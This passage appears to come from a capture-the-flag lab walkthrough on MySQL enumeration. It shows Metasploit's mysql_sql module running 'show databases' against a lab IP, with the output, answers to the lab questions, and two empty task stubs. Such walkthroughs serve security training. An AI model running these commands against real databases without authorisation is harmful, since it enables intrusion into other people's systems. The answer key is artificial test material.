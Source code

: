 ***Correct answer: 8.0.42-0ubuntu0.20.04.1***

Great! We know that our exploit is landing as planned.
Let's try to gain some more ambitious information.
Change the `sql` option to `show databases`.
How many databases are returned?

*Solution:*

```bash
msf auxiliary(admin/mysql/mysql_sql) > set SQL show databases
SQL => show databases
msf auxiliary(admin/mysql/mysql_sql) > run
[*] Running module against 10.10.97.114
[*] 10.10.97.114:3306 - Sending statement: 'show databases'...
[*] 10.10.97.114:3306 -  | information_schema |
[*] 10.10.97.114:3306 -  | mysql |
[*] 10.10.97.114:3306 -  | performance_schema |
[*] 10.10.97.114:3306 -  | sys |
[*] Auxiliary module execution completed
msf auxiliary(admin/mysql/mysql_sql) >
```

***Correct answer: 4***

## Task 10

### Subheading

***Answer the questions below***

***Correct answer:***

## Task 11

### Subheading

***Answer the questions below***

***Correct answer:***
